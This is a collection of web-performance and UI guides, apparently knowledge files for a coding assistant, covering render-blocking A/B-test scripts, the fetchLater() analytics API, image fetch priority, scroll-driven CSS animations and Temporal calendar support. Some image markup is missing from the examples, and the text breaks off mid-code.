4. **DO NOT** use `blocking="render"` on scripts that do not need to run before first paint. It is intended only for scripts whose output must be visible in the initial render.
5. **DO NOT** apply `blocking="render"` to scripts outside the `<head>`. Only scripts in the `<head>` can block rendering.

## Implementation Guide

### Basic Setup

MANDATORY: Load the experimentation script with both `async` and `blocking="render"`. The `async` attribute ensures the script does not block HTML parsing (the browser continues building the DOM while fetching the script). The `blocking="render"` attribute ensures the browser does not paint anything until the script has executed.

```html
<head>
  <!--
    MANDATORY: Both `async` and `blocking="render"` are required.
    - `async`: Prevents parser-blocking, so the DOM is built in parallel.
    - `blocking="render"`: Holds rendering until the script executes,
      ensuring experiment changes are applied before the user sees anything.
  -->
  <script
    src="https://cdn.example.com/experiment-sdk.js"
    async
    blocking="render"
  ></script>
</head>
```

### Loading Experiment-Specific Styles

If the experiment requires a variant stylesheet, use `blocking="render"` on the `<link>` element. Stylesheets in the `<head>` already block rendering by default, but dynamically injected stylesheets or those added via script do not. Use `blocking="render"` explicitly when the stylesheet is added dynamically or when you want to be explicit about the intent.

```html
<head>
  <!--
    DO: Use blocking="render" on experiment stylesheets that are
    dynamically inserted or conditionally loaded by the experiment SDK.
    This ensures variant styles are applied before first paint.
  -->
  <link
    rel="stylesheet"
    href="https://cdn.example.com/experiment-variant-b.css"
    blocking="render"
  >
</head>
```

### Inline Experiment Script

If the experiment logic is lightweight enough to inline, use an inline module script with `blocking="render"`. This is useful when the experiment logic fetches a configuration and applies DOM changes directly.

```html
<head>
  <!--
    DO: Use an inline module script when the experiment logic is small.
    Module scripts are deferred by default (non-parser-blocking),
    and blocking="render" ensures rendering waits for execution.
  -->
  <script type="module" blocking="render">
    // Fetch the experiment configuration from your testing platform.
    const config = await fetch('/api/experiment?id=homepage-cta')
      .then(res => res.json());

    // Apply the variant by setting a data attribute on <html>.
    // CSS rules keyed to this attribute will style the variant.
    document.documentElement.dataset.variant = config.variant;
  </script>

  <style>
    /* Default styles (control group) */
    .cta-button {
      background-color: blue;
    }

    /* Variant B styles, activated by the data attribute */
    [data-variant="b"] .cta-button {
      background-color: green;
    }
  </style>
</head>
```

## Best Practices

- **MANDATORY:** The experimentation script MUST execute quickly. A slow script delays all rendering. Set a performance budget (e.g., under 100ms execution time) for the render-blocking script.
- **DO** split heavy experiment logic from the render-blocking script. Load a small, render-blocking stub that applies the variant, then load heavier tracking or analytics scripts separately with `async` or `defer` (without `blocking="render"`).
- **DO** use a data attribute on `<html>` or `<body>` to signal the active variant, and use CSS selectors keyed to that attribute for variant styling. This avoids direct DOM manipulation in the render-blocking script.
- **DO NOT** use `blocking="render"` on analytics, tracking, or other non-visual scripts. Only scripts that must change what the user sees on first paint should block rendering.
- **DO NOT** combine `blocking="render"` with legacy anti-flicker snippets. They solve the same problem; using both creates unnecessary delays.

## Fallback Strategies

blocking="render" has limited availability.
Supported by: Chrome 105 (Sep 2022), Edge 105 (Sep 2022), and Safari 18.2 (Dec 2024).
Unsupported in: Firefox.

The `blocking` attribute is not supported in all browsers. In browsers that do not support it, the attribute is ignored and the script loads with its default behavior (`async` in the examples above), which may result in flicker. A fallback is required to prevent flicker in unsupported browsers.

### Fallback: Anti-Flicker Snippet

DO: Use a lightweight anti-flicker snippet as a fallback only when `blocking="render"` is not supported. Feature-detect support and skip the fallback in browsers that handle it natively.

```html
<head>
  <!--
    DO: Load the experiment script with blocking="render" for
    browsers that support it. This is the preferred approach.
  -->
  <script
    src="https://cdn.example.com/experiment-sdk.js"
    async
    blocking="render"
  ></script>

  <script>
    // DO: Only apply the anti-flicker fallback in browsers
    // that do not support blocking="render".
    if (!Object.hasOwn(HTMLScriptElement.prototype, 'blocking')) {
      // Hide the page until the experiment script runs.
      document.documentElement.classList.add('ab-loading');

      // DO: Set a timeout to reveal the page if the experiment
      // script takes too long. This prevents an indefinitely
      // blank page on slow connections. Adjust the timeout
      // to match your experiment SDK's expected load time.
      setTimeout(() => {
        document.documentElement.classList.remove('ab-loading');
      }, 4000);
    }
  </script>

  <style>
    /*
      DO: Use opacity to hide content during experiment loading.
      This is only applied when blocking="render" is unsupported.
    */
    .ab-loading {
      opacity: 0 !important;
    }
  </style>
</head>
```

```javascript
// DO: In your experiment SDK's initialization callback,
// remove the fallback class to reveal the page.
function onExperimentReady() {
  document.documentElement.classList.remove('ab-loading');
}
```

## Other Considerations

1. **Performance Impact**: `blocking="render"` trades first-paint speed for visual correctness. Monitor Largest Contentful Paint (LCP) and First Contentful Paint (FCP) to ensure the experimentation script is not adding excessive delay.
2. **Third-Party Script Reliability**: If the experiment SDK is hosted on a third-party CDN, a CDN outage could block rendering entirely. The browser applies its own timeout heuristics (which may be longer than 4 seconds), but there is no developer-controlled timeout for `blocking="render"`. Ensure the third-party provider has strong uptime guarantees.
3. **Server-Side Alternatives**: For performance-critical pages, consider server-side A/B testing (where the server renders the correct variant directly) instead of client-side testing. Server-side approaches eliminate flicker entirely without any render-blocking cost. Use client-side `blocking="render"` only when server-side testing is not feasible.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_FULL-SESSION-ANALYTICS.MD

# Reliably measure full-session analytics and telemetry
> **VERSION**: v1 | **Last Updated**: 26/05/2026


To reliably analytics and telemetry data that covers the entirety of a user's visit to a web page (not just until page load) use the `fetchLater()` API.

The `fetchLater()` API is the most reliably way to send data to a server in cases where a response is not required and delivery timing is not urgent, which applies to data such as user analytics, telemetry, error tracking, and performance metrics like Core Web Vitals.

Older technique like creating an `` pixel in an `unload` event listener are notoriously unreliably (especially on mobile) and can negatively impact performance (by making pages ineligible for bfcache).

## How to implement

1. **Schedule the request:** As soon as relevant data is available, call `fetchLater()` with your data payload. This queues the data to be sent later.

2. **Update the payload as needed:** If the user generates more data or the state changes, abort the previously scheduled request and call `fetchLater()` again with the fully updated snapshot.

3. **Let the browser handle the rest:** When the user navigates away or closes the tab, the browser will reliably send the payload from your most recent `fetchLater()` call.

## Example code

This code measures the session duration of a user's visit to a page using `fetchLater()` to queue a new beacon every 10 seconds with the updated session duration.

```javascript
const ANALYTICS_ENDPOINT = '/path/to/analytics/endpoint';

const sessionData = {
  duration: 0,
  id: crypto.randomUUID(),
};

let fetchLaterController = null;

function queueBeacon() {
  // Abort any pending beacons before creating a new one.
  if (fetchLaterController) {
    fetchLaterController.abort();
  }
  fetchLaterController = new AbortController();

  // Update session duration to the current page time.
  sessionData.duration = performance.now();

  // Schedule a fetch for the data payload to be sent later.
  // IMPORTANT: wrap the call in a try/catch to handle quota errors.
  try {
    fetchLater(ANALYTICS_ENDPOINT, {
      method: 'POST',
      headers: {'content-type': 'application/json'},
      body: JSON.stringify(sessionData),
      signal: fetchLaterController.signal,
    });
  } catch (error) {
    // Handle errors as needed.
  }
}

// Update the session data and queue a new beacon every 10 seconds.
setInterval(queueBeacon, 10000);
```

## Best Practices

- **DO** use `fetchLater()` to send data to a server in any situation where a response is not necessary, and it's not critical that the data is sent immediately.
- **DO** use an `AbortController` to cancel the pending fetch in cases where the data may need to be updated before the user leaves the page
- **DO** minimum the payload size to avoid exceeding the quota (currently roughly 64KB per origin).
- **DO** wrap calls to `fetchLater()` in a `try/catch` to handle quota errors.
- **DO** feature detect the presence of `fetchLater()` on `globalThis` and implement a fallback strategy for browsers that don't support the API.
- **DO NOT** use a `ReadableStream` object for the request body, as that will error.

## Browser support and fallback strategies

fetchLater has limited availability.
Supported by: Chrome 135 (Apr 2025) and Edge 135 (Apr 2025).
Unsupported in: Firefox and Safari.

A fallback strategy is required if `fetchLater()` doesn't meet your Baseline target. However, given the improved reliability and performance benefits of this API, `fetchLater()` should be used if the browser supports it.

The recommended fallback strategy is to use the polyfill below, which internally handles unsupporting browsers using `fetch()` with `keepalive` or `navigator.sendBeacon()`. Your own code MUST call `fetchLater()` directly — never call `fetch()`, `sendBeacon()`, or other beacon APIs yourself.

### `fetchLater()` polyfill

Use the following minimal `fetchLater()` polyfill, which implements the API as closely as possible in unsupporting browsers.

The only notable behavior difference with this polyfill is that it uses `visibilitychange` to detect when the user leaves, rather than relying on the browser's native unload handling. This is an internal implementation detail — your code does not need to listen for `visibilitychange` or any other page lifecycle events. Just call `fetchLater()` and the polyfill handles delivery.

```js
globalThis.fetchLater ??= function fetchLater(url, init = {}) {
  let timeoutHandle;
  let activated = false;

  function sendNow() {
    if (!(init.signal && init.signal.aborted)) {
      // Use fetch keepalive if the browser supports it or if custom fetch
      // parameters are specified (e.g. custom headers or methods).
      // Otherwise fall back to `navigator.sendBeacon()`.
      if (
        'keepalive' in Request.prototype ||
        init.method !== 'POST' ||
        init.headers
      ) {
        fetch(url, Object.assign({}, init, {keepalive: true}));
        activated = true;
      } else {
        activated = navigator.sendBeacon(url, init.body);
      }
    }
    destroy();
  }

  function destroy() {
    document.removeEventListener('visibilitychange', sendNow);
    clearTimeout(timeoutHandle);
  }

  if (document.visibilityState === 'hidden') {
    // If the beacon was created while the page is already hidden, send data
    // ASAP but wait until the next microtask to allow all sync code to run.
    queueMicrotask(sendNow);
  } else {
    document.addEventListener('visibilitychange', sendNow);

    if (typeof init.activateAfter === 'number' && init.activateAfter >= 0) {
      timeoutHandle = setTimeout(sendNow, init.activateAfter);
    }
  }

  if (init.signal) {
    init.signal.addEventListener('abort', destroy);
  }

  return {
    get activated() {
      return activated;
    },
  };
};
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_OPTIMIZE-IMAGE-PRIORITY.MD

# Optimize image priority
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Browsers use heuristics to assign loading priorities to images, but these defaults may not always align with your page's Largest Contentful Paint (LCP). Using `fetchpriority` on an `` element allows you to explicitly signal an image's importance to the browser, ensuring critical images load faster while non-essential ones don't compete for bandwidth.

## How to implement

1. **Identify the LCP image**: Determine which image is the most likely candidate for the Largest Contentful Paint (usually the hero image at the top of the page).
2. **Elevate LCP priority**: Add `fetchpriority="high"` to the `` element for the LCP candidate.
3. **Deprioritize non-critical images**: For images that are part of a secondary UI or are only revealed after user interaction (like mega menus, modals, or off-screen carousel slides), add `fetchpriority="low"`.
4. **Optimize lazy loading**: Never use `loading="lazy"` on the LCP image. For standard below-the-fold images, `loading="lazy"` is sufficient to defer the request until the user scrolls near them. Avoid adding `fetchpriority="low"` to these images, as you want them to load at normal priority once the user scrolls to them. Reserve `fetchpriority="low"` for images that are technically "above the fold" but not initially visible (e.g., hidden carousel slides or mega menus). For these hidden images, it is acceptable to use `loading="lazy"` as well; the browser will handle the request timing while respecting the low priority.
5. **Prefer default priorities**: If an image should have normal loading priority, omit the `fetchpriority` attribute entirely rather than setting it to `auto`. This is a stylistic convention to keep your HTML cleaner while relying on the browser's native heuristics.

## Example code

```html
<!-- Elevate priority for the LCP image -->


<!-- Deprioritize initially hidden images above the fold -->


<!-- Deprioritize images revealed only after user interaction -->


<!-- Use lazy loading ALONE for standard below-the-fold images -->


<!-- Omit fetchpriority for images with standard priority -->

```

## Best practices

- **MANDATORY**: Always apply `fetchpriority="high"` to the LCP image.
- **MANDATORY**: Only use `fetchpriority="high"` on at most 1-2 critical images to avoid network contention and diluting the priority boost.
- **MANDATORY**: Use `fetchpriority="low"` for images that are technically "above the fold" but initially hidden (e.g., hidden carousel slides, mega menu images).
- **MANDATORY**: **Do not** use `fetchpriority="low"` on standard below-the-fold images that are already using `loading="lazy"`. These images should load at normal priority once they enter the viewport.
- **RECOMMENDED**: Avoid using `fetchpriority="auto"`. If you want the default priority, omit the attribute entirely to keep your HTML clean.
- **DO NOT** combine `fetchpriority="high"` with `loading="lazy"` for the LCP image.
- **DO NOT** use the deprecated `importance` attribute. It has been replaced by `fetchpriority` and is not supported by any browser.

## Fallback strategy

Baseline status for Fetch priority: Newly available. It's been Baseline since 2024-10-29.
Supported by: Chrome 103 (Jun 2022), Edge 103 (Jun 2022), Firefox 132 (Oct 2024), and Safari 17.2 (Dec 2023).

The `fetchpriority` attribute is a progressive enhancement for the `` element. If a browser does not support it, the attribute is ignored, and the browser uses its default priority heuristics.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance]

### 📘 KNOWLEDGE: NEXUS_SCROLL-ENTRY-EXIT-EFFECTS.MD

# Add entry and exit effects to elements as they enter or exit the scrollport
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Entry and exit effects are animations that are triggered when an element enters or leaves the viewport. This can be used to create engaging and dynamic user experiences. For example, you can use an entry effect to fade in an element as it scrolls into view, or an exit effect to scale it down as it scrolls out of view.

## How to implement

To add entry and exit effects to an element, you need to combine a few CSS properties. Here’s a step-by-step guide:

1.  **Create separate `@keyframes` for the entry and exit animations.** The entry animation will be applied as the element enters the viewport, and the exit animation will be applied as it leaves.

    ```css
    @keyframes slide-in {
      from { transform: translateX(-100%); }
    }
    @keyframes slide-out {
      to { transform: translateX(100%); }
    }
    ```

2.  **Attach the entry and exit keyframes to the element.** You can do this by defining multiple animations in the `animation` property.

    -   Give the entry animation an `animation-fill-mode` of `backwards` so that it applies its initial state before the animation starts.
    -   Give the exit animation an `animation-fill-mode` of `forwards` so that it maintains its final state after the animation is complete.

    ```css
    .animated-element {
      animation:
        slide-in 1s linear backwards,
        slide-out 1s linear forwards;
    }
    ```

3.  **Create a View Timeline and link it to the animations.** A View Timeline is a type of timeline that is linked to the visibility of an element in the viewport. You can create one using the `view()` function and then apply it to your animations using the `animation-timeline` property.

    ```css
    .animated-element {
      animation-timeline: view();
    }
    ```

    By default, `view()` tracks the element on the `block` axis. If you need to track it on the `inline` axis, you can use `view(inline)`.

4.  **Limit the animations to the `entry` and `exit` ranges.** The `animation-range` property allows you to specify which part of the timeline an animation should run on.

    -   The `entry` range covers the time from when the element first enters the viewport until it is fully visible.
    -   The `exit` range covers the time from when the element starts to leave the viewport until it is completely hidden.

    ```css
    .animated-element {
      animation-range: entry, exit;
    }
    ```

## Example code

This code animates the direct children of the scroller on scroll using an **anonymous view-timeline**:

```css
@media (prefers-reduced-motion: no-preference) {
  @supports ((animation-timeline: view()) and (animation-range: entry)) {
    @keyframes grow {
      from {
        scale: 0.5;
      }
    }
    @keyframes shrink {
      to {
        scale: 0.5;
      }
    }

    .scroller > * {
      animation:
        grow auto linear backwards,
        shrink auto linear forwards;
      animation-timeline: view(inline);
      animation-range: entry, exit;
    }
  }
}
```

As the elements enter the scrollport the `grow` animation is played, and as they leave the scrollport the `shrink` animation is played.

The following code has the same visual outcome, but animates the direct children of the scroller on scroll using an **named view-timeline**:

```css
@media (prefers-reduced-motion: no-preference) {
  @supports ((animation-timeline: view()) and (animation-range: entry)) {
    @keyframes grow {
      from {
        scale: 0.5;
      }
    }
    @keyframes shrink {
      to {
        scale: 0.5;
      }
    }

    .scroller > * {
      view-timeline: --tl inline;
      animation:
        grow auto linear backwards,
        shrink auto linear forwards;
      animation-timeline: --tl;
      animation-range: entry, exit;
    }
  }
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports ((animation-timeline: view()) and (animation-range: entry))` to check for support and provide a fallback for browsers that don't support it.
  - The `(animation-range: entry)` check **MUST** be included here, to filter out browsers with only partial support.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` *after* it to prevent the shorthand from resetting the timeline.

When using the `view()` function to create a scroll-driven animation:

- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `view(block)` or `view(inline)`.
- When the animation is not applied to the tracked subject itself, use a named view timeline.

When using the `view-timeline` property to create a scroll-driven animation:

- **DO** use a CSS `<dashed-ident>` for the name.
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `view-timeline-axis`.
- **DO** make sure the scope of the lookup works: When the element that is declaring the `view-timeline` is not a flat tree ancestor of the animated element, hoist up the visibility of the `view-timeline`’s name by using `timeline-scope` on a shared ancestor.

Prefer a named `view-timeline` when multiple elements or children of the tracked subject need to animate.

## Browser support and fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.. Therefore, a fallback strategy is typically required.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses an `IntersectionObserver` to track the visibility of the `.wrapper` element and updates the `transform` property of the layers based on the scroll position.

```html
<script>
  if (!CSS.supports('(animation-timeline: view()) and (animation-range: entry)')) {
    const observer = new IntersectionObserver(
      (entries) => {
        for (const entry of entries) {
          // This matches the effect as defined in the CSS example above.
          // Customize this further if needed.
          entry.target.style.scale = 0.5 + entry.intersectionRatio * 0.5;
        }
      },
      {
        threshold: Array.from({ length: 101 }, (_, i) => i / 100),
      }
    );

    document.querySelectorAll('.scroller > *').forEach((el) => {
      observer.observe(el);
    });
  }
</script>
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance]

### 📘 KNOWLEDGE: NEXUS_SCROLL-PROGRESS-INDICATOR.MD

# Build a Scroll Progress Indicator
> **VERSION**: v1 | **Last Updated**: 26/05/2026


A scroll progress indicator is a common user interface pattern that visually communicates the user's progress through a scrollable document or container. As the user scrolls, a visual element updates to reflect their position, providing a clear and intuitive sense of how much content has been viewed and how much remains.

## How to implement

To create a scroll progress indicator, you need two things:

1.  An element to act as the progress bar. This element is typically `position: fixed` or `position: absolute` so that it stays in view while the user scrolls.
2.  An animation that is linked to the scroll position.

Here’s how you can achieve this:

-   First, create an HTML element that will serve as your progress bar. This element can be styled to your liking.
-   Next, in your CSS, define a `@keyframes` animation that scales the progress bar. A common approach is to scale the element from `scaleX(0)` to `scaleX(1)`.
-   Finally, apply this animation to your progress bar element and set its `animation-timeline` to a scroll-timeline. This tells the browser to drive the animation's progress based on the scroll position of the nearest ancestor scroller.

## Example code

This code grows the `#progress` element on scroll using an anonymous scroll-timeline, created by the `scroll()` function.

```css
@media (prefers-reduced-motion: no-preference) {
  @supports ((animation-timeline: scroll())) {
    @keyframes grow-progress {
      from { transform: scaleX(0); }
      to { transform: scaleX(1); }
    }

    #progress {
      position: fixed;
      left: 0; top: 0;
      width: 100%; height: 1em;
      background: red;

      transform-origin: 0 50%;
      animation: grow-progress auto linear;
      animation-timeline: scroll();
    }
  }
}
```

Because of its location in the DOM, the `scroll()` function will track its neareast ancestor scroller in the `block` direction, which here is the root scroller.

```html
<body>
  <!-- MANDATORY: Purely decorative visual scroll progress bars MUST set aria-hidden="true" to remove the empty element from the assistive technology reading tree -->
  <div id="progress" aria-hidden="true"></div>
</body>
```

This code grows the `#progress` element on scroll using a named scroll-timeline, created by the `scroll-timeline` property.

```css
@media (prefers-reduced-motion: no-preference) {
  @supports ((animation-timeline: scroll())) {
    @keyframes grow-progress {
      from { transform: scaleX(0); }
      to { transform: scaleX(1); }
    }

    :root {
      scroll-timeline: --tl block;
    }

    #progress {
      position: fixed;
      left: 0; top: 0;
      width: 100%; height: 1em;
      background: red;

      transform-origin: 0 50%;
      animation: grow-progress auto linear;
      animation-timeline: --tl;
    }
  }
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports (animation-timeline: scroll())` to check for support and provide a fallback for browsers that don't support it.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** remove purely decorative elements from assistive technology reading flows: Apply `aria-hidden="true"` to purely visual scroll indicators to ensure screen readers do not encounter empty, unnamed nodes.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` *after* it to prevent the shorthand from resetting the timeline.

When using the `scroll()` function to create a scroll-driven animation:

- **OPTIONAL** be explicit about the scroller: When not targeting the nearest ancestor scroller, be explicit about which scroller you want to use with `scroll(root)` or `scroll(self)`.
  - When `root`, `nearest`, or `self` are not sufficient, use a named scroll-timeline.
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `scroll(block)` or `scroll(inline)`.

When using the `scroll-timeline` property to create a scroll-driven animation:

- **DO** use a CSS `<dashed-ident>` for the name.
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `scroll-timeline-axis`.
- **DO** make sure the scope of the lookup works: When the element that is declaring the `scroll-timeline` is not a flat tree ancestor of the animated element, hoist up the visibility of the `scroll-timeline`’s name by using `timeline-scope` on a shared ancestor.

## Fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses a scroll listener to track the scroll position of the root element and updates the `transform` property of the progress bar accordingly.

```html
<script>
  if (!CSS.supports('animation-timeline', 'scroll()')) {
    const progress = document.querySelector('#progress');

    window.addEventListener('scroll', () => {
      const scrollable = document.documentElement.scrollHeight - window.innerHeight;
      const scrolled = window.scrollY;
      const progressPercentage = (scrolled / scrollable);

      progress.style.transform = `scaleX(${progressPercentage})`;
    });
  }
</script>
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_SHRINKING-HEADER-ON-SCROLL.MD

# Shrinking headder on scroll
> **VERSION**: v1 | **Last Updated**: 26/05/2026


A shrinking header on scroll is a common UI pattern where a fixed header element at the top of the page smoothly transitions to a smaller size as the user scrolls down. This effect is often used to maximize screen real estate for the main content while keeping essential navigation or branding elements accessible. With CSS scroll-driven animations, this effect can be achieved in a declarative and performant way, by linking an animation to the scroll position of the document.

## How to implement

Here’s how to create a shrinking header on scroll:

1.  **Create a fixed header:** Start with a header element that is fixed to the top of the page and has a predefined height.

    ```html
    <header>HEADER</header>
    ```

    ```css
    header {
      position: fixed;
      height: 200px;
      top: 0;
      left: 0;
      right: 0;
    }
    ```

2.  **Define the shrink animation:** Create a CSS animation that changes the height of the header.

    ```css
    @keyframes shrink {
      to {
        height: 50px;
      }
    }
    ```

3.  **Apply the animation and scroll timeline:** Attach the animation to the header and use the `scroll()` function to link it to the document’s scroll position.

    ```css
    header {
      animation: shrink auto linear both;
      animation-timeline: scroll(block root);
    }
    ```

4.  **Set the `animation-range`:** Use the `animation-range` property to specify the scroll distance over which the animation should occur. For example, to shrink the header over the first 150 pixels of scrolling, you would use `animation-range: 0px 150px;`.

    ```css
    header {
      animation-range: 0px 150px;
    }
    ```

**Tip:** To prevent the content following the header from being obscured by it, add a `padding-top` to the `body` (or the main content container) that is equal to the initial height of the header.

**Tip:** To make sure the contents of the page scroll in sync with the shrinking header, set the `animation-range-end` to the difference between the start and end sizes. This ensures the animation completes precisely when the header reaches its final size. In this demo the header shrinks from `200px` to `50px`, so the `animation-range-end` is set to `150px`.

## Example code

```css
@keyframes shrink {
  to {
    height: 50px;
  }
}

header {
  animation: shrink auto linear both;
  animation-timeline: scroll(block root);
  animation-range: 0px 150px;
}
```

## Best Practices

When using scroll-driven animations, it's important to follow a few best practices to ensure a smooth and accessible experience:

- **DO** include feature detection: Not all browsers support scroll-driven animations. Use `@supports ((animation-timeline: scroll()) and (animation-range: 0% 100%))` to check for support and provide a fallback for browsers that don't support it.
  - The `(animation-range: 0% 100%)` check **MUST** be included here, to filter out browsers with only partial support.
  - **DO NOT** use the `scroll-timeline-polyfill` package for the fallback strategy as it is not feature complete and has a lot of known issues.
  - If the animation is only considered to be decorative, opt for Progressive Enhancement and **DO NOT** provide a fallback.
- **DO** respect user preferences: Some users prefer to have less motion on the web. Use the `prefers-reduced-motion` media query to disable or reduce your animations for these users.
- **DO** try to animate only performant CSS properties: For the smoothest animations, stick to animating properties that can be handled by the browser's compositor thread, such as `transform` and `opacity`. Animating other properties like `width` or `height` can lead to performance issues.
- **DO** use the correct declaration order: When using the `animation` shorthand property, declare `animation-timeline` and `animation-range` *after* it to prevent the shorthand from resetting the timeline.

When using the `scroll()` function to create a scroll-driven animation:

- **OPTIONAL** be explicit about the scroller: When not targeting the nearest ancestor scroller, be explicit about which scroller you want to use with `scroll(root)` or `scroll(self)`.
  - When `root`, `nearest`, or `self` are not sufficient, use a named scroll-timeline.
- **OPTIONAL** be explicit about the axis to track: When not targeting the default `block` axis (such as in a horizontal scroller), be explicit about which axis to track with `scroll(block)` or `scroll(inline)`.

As for this use case specifically:

- The element that you animate **MUST** not be `position: static` or `position: relative` when using percentages in the `animation-range`.
  - This is because those elements are considered “in-flow”. Shrinking those elements as you scroll, would shrink the total scroll distance, thereby affecting the computed value of — for example — `10%` into the scroll.

## Browser support and fallback strategies

Scroll-driven animations has limited availability.
Supported by: Chrome 115 (Jul 2023), Edge 115 (Jul 2023), and Safari 26 (Sep 2025).
Unsupported in: Firefox.. Therefore, a fallback strategy is typically required.

For browsers that do not support scroll-driven animations, you can use a fallback to recreate the visual effects. The fallbacks are typically built with either a scroll listener (for ScrollTimeline effects) or the IntersectionObserver API (for ViewTimeline effects).

In browsers with built-in support for scroll-driven animations, ALWAYS use the native CSS implementation as those are more performant.

Note that not every effect can be recreated using the fallbacks approach.

For this use-case specifically, the following script applies the fallback for browsers that do not support scroll-driven animations. It uses a scroll listener to track the scroll position of the document over a distance of `150px` and updates the header's height accordingly.

```js
// Fallback for browsers that don't support scroll-driven animations
if (!CSS.supports('(animation-timeline: scroll()) and (animation-range: 0% 100%)')) {
  const header = document.querySelector('header');

  const initialHeight = 200;
  const finalHeight = 50;
  const scrollDistance = 150;

  window.addEventListener('scroll', () => {
    const scrollY = window.scrollY;
    const scrollPercent = Math.min(1, scrollY / scrollDistance);
    const newHeight = initialHeight - (initialHeight - finalHeight) * scrollPercent;

    header.style.height = `${newHeight}px`;
  });
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [performance, api]

### 📘 KNOWLEDGE: NEXUS_SUPPORT-GLOBAL-CALENDAR-SYSTEMS.MD

# Supporting Global Calendar Systems with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


The traditional JavaScript `Date` object is based on a proleptic Gregorian calendar, making it challenging to build applications for users who rely on other calendar systems, such as the Islamic (lunar), Hebrew (lunisolar), or Chinese (lunisolar) calendars. Developers previously had to rely on complex third-party libraries or manual calculations to support these systems.

The `Temporal` API provides first-class support for multiple calendar systems. By associating a calendar identifier with date objects, Temporal handles the complex arithmetic and formatting required for different cultural contexts natively.

## How to Implement

To support global calendar systems using Temporal:

1. **Associate a Calendar (Mandatory):** When creating or converting a Temporal object (like `Temporal.PlainDate`), you must specify the desired calendar system using `withCalendar()` to perform calendar-sensitive operations.
2. **Use Stable Identifiers (Mandatory for Lunisolar Calendars):** You must use `monthCode` rather than the numeric `month` index to identify specific months across years in lunisolar calendars. Only use this for calendars that use leap months, such as the Hebrew and Chinese calendars.
3. **Respect Calendar Invariants (Mandatory):** When iterating through months or days, you must not assume fixed values (like 12 months in a year or 31 days in a month). Use properties like `monthsInYear` and `daysInMonth` to ensure your code works across all calendars.
4. **Use Calendar-Aware Comparisons (Mandatory):** When comparing dates within a specific calendar system, you must use `Temporal.PlainDate.compare()` instead of comparing year/month/day properties manually. This correctly handles chronological ordering within the calendar rules.

## Example Code: Converting and Iterating Calendars

```javascript
// 1. Helper to check calendar support
function isCalendarSupported(calendarId) {
  try {
    return Intl.supportedValuesOf('calendar').includes(calendarId);
  } catch {
    // Fallback for environments where supportedValuesOf is not available
    return false;
  }
}

// 2. Get current date in default ISO 8601 calendar
const isoDate = Temporal.Now.plainDateISO();

// 3. Convert to Hebrew calendar if supported
const calendarId = 'hebrew';
const targetDate = isCalendarSupported(calendarId) 
  ? isoDate.withCalendar(calendarId)
  : isoDate; // Fallback to ISO if not supported

if (targetDate.calendar.id !== calendarId) {
  console.warn(`Calendar ${calendarId} not supported; falling back to ISO 8601`);
}

// 4. Log properties specific to the calendar
console.log(`Calendar: ${targetDate.calendar.id}`);
console.log(`Year: ${targetDate.year}`);
console.log(`Month Code: ${targetDate.monthCode}`); // Stable across leap years

// 5. Safely iterate through months in the current year
for (let m = 1; m <= targetDate.monthsInYear; m++) {
